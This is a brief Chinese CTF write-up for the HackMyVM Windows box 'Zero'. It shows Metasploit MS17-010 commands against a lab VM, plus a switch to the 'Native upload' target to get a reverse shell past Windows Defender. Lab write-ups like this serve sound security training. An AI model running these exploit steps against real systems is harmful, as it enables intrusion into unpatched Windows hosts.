



# Zero

## MS17-010

使用`fscan`扫描发现了`ms17-010`漏洞



`MS17-010`的打法很多，这里使用

如果用`exploit/windows/smb/ms17_010_eternalblue`会把虚拟机打蓝屏了

```bash
search 17_010
use exploit/windows/smb/ms17_010_psexec
set rhost 192.168.1.97
run
```

还是打失败了,错误信息为



找到了个大佬的wp[h4cker_b00k Zero WP](https://dise0.gitbook.io/h4cker_b00k/ctf/hackmyvm/zero-hackmyvm-easy-windows)，他写的原因是

> 尝试创建一个 `reverse shell` 但未能成功，因为 `Windows Defender` 可能正在阻止它，所以我们将使用另一个更隐秘的 `target` 

```bash
> show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
```

使用 `Native upload` 来自动上传一个文件，并生成一个 `reverse shell` ：

```bash
set target 2
```



即可成功获取